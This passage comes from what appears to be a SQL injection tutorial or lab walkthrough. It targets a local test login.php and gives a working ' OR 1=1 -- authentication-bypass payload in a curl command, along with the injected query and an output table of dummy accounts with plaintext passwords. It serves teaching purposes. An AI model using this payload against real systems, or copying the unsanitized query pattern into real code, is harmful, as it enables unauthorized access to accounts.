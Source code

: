 The response shows the executed SQL and a matching row from the `users` table followed by a “Login OK” message and a table row for the admin account.

This tells us two things.

First, both parameters are passed directly into the SQL query without sanitization.

Second, the endpoint is functional and will display matching rows when credentials are correct.

That makes each parameter a potential injection point.

We want to test whether we can change the logic of the `WHERE` clause instead of supplying correct credentials.

This is where our first attack sits in: authentication bypass.

### Authentication Bypass

Our goal is to make the condition always evaluate to `true`, regardless of the password.

To do this, we inject `OR 1=1` into the username parameter.

URL encoding is necessary so special characters are interpreted correctly by the application:

Special characters must be URL-encoded to avoid shell parsing issues:

```bash
curl "http://127.0.0.1:8080/login.php?user=%27%20OR%201=1%20--%20&pass=irrelevant"
```

The resulting query becomes:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = 'irrelevant'

<pre>SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = 'irrelevant'</pre><p>Login OK</p><table border=1 cellpadding=6 cellspacing=0><tr><th>id</th><th>username</th><th>password</th><th>email</th><th>role</th><th>created_at</th></tr><tr><td>1</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:12:35</td></tr><tr><td>2</td><td>john_doe</td><td>password123</td><td>john@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>3</td><td>jane_smith</td><td>secret456</td><td>jane@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>4</td><td>bob_wilson</td><td>qwerty789</td><td>bob@test.com</td><td>moderator</td><td>2025-08-08 03:12:35</td></tr><tr><td>5</td><td>alice_brown</td><td>letmein</td><td>alice@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>6</td><td>test_user</td><td>test123</td><td>test@test.com</td><td>user</td><td>2025-08-08 03:12:35</td></tr><tr><td>7</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:49:07</td></tr><tr><td>8</td><td>john_doe</td><td>password123</td><td>john@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr><tr><td>9</td><td>jane_smith</td><td>secret456</td><td>jane@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr><tr><td>10</td><td>bob_wilson</td><td>qwerty789</td><td>bob@test.com</td><td>moderator</td><td>2025-08-08 03:49:07</td></tr><tr><td>11</td><td>alice_brown</td><td>letmein</td><td>alice@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr><tr><td>12</td><td>test_user</td><td>test123</td><td>test@test.com</td><td>user</td><td>2025-08-08 03:49:07</td></tr></table>
```

The output now lists all users in the database, from admin to `test_user`.

The `OR 1=1` condition matches all rows, and the comment sequence removes the password check entirely. The database returns the first matching user, and we are logged in without valid credentials.
